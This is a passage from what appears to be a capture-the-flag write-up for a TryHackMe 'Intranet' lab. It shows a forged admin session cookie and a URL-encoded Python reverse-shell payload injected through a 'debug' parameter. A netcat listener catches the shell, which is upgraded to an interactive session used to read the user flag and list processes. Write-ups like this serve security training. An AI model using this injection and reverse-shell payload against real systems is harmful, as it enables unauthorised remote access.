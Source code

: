 ```bash
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.aLDTWw.anr8hkKuMLBVnG5L3pAfLTtUdtA

debug=%2Fusr%2Fbin%2Fpython3%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22xx%2Exxx%2Exxx%2Exxx%22%2C52222%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3Bos%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27
```

```bash
:~/Intranet# nc -nlvp 52222
Listening on 0.0.0.0 52222
Connection received on xx.xxx.x.xxx2 43264
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
devops@...:~$ ^Z
[3]+  Stopped                 nc -nlvp 52222
(rosana) :~/Intranet# stty raw -echo; fg
nc -nlvp 52222

devops@...:~$ export TERM=xterm
devops@...:~$ id
uid=1001(devops) gid=1001(devops) groups=1001(devops)
devops@...:~$ pwd
/home/devops
```

```bash
devops@....:~$ ls
app.py  templates  user.txt
```

```bash
devops@...:~$ cat user.txt
THM{*****************************}
```

<img width="636" height="373" alt="image" src="https://github.com/user-attachments/assets/cf0745df-536e-439b-8217-4377f9034717" />

<br>
<br>
<p> 1.5. What is the user.txtflag?</em>.<br>
<code>THM{*****************************}</code></p>

<br>
<h2 align="center">ps aux</h2>
<p>

- /usr/sbin/apache2 -k start</p>

```bash
devops@...:~$ ps aux | grep anders
anders      1308  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1314  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1328  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1330  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1343  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1354  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1372  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1393  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1399  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
anders      1402  0.0  0.4 193944  9156 ?        S    18:50   0:00 /usr/sbin/apache2 -k start
devops    558122  0.0  0.0   6440   652 pts/6    R+   22:29   0:00 grep --color=auto anders
```
